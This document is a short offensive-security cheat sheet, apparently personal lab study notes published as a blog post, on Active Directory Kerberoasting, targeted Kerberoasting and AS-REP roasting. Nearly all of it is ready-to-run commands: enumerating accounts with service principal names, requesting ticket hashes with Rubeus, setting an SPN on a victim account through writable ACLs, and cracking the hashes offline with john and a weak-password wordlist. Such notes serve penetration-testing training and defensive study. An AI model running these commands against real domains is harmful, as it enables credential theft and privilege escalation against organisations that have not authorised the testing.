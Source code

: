 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Kerberoast and Variants
---
```


## Kerberoasting

1. Find Service Accounts
```bash
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-DomainUser –SPN
```
2. Escalation via Service Accounts - Use Rubeus to request a TGS
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```
3. Crack Ticket
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt C:\AD\Tools\hashes.txt
```

## Targeted Kerberoasting

1. Find "Write" Permissions
```bash
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
2. Find SPN
```bash
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

3. Set-SPN
```bash
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
    ```

4. Kerberoasting
```bash
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## AS-REP Roasting

Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```bash
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```


---
[back](../adprivesc.html)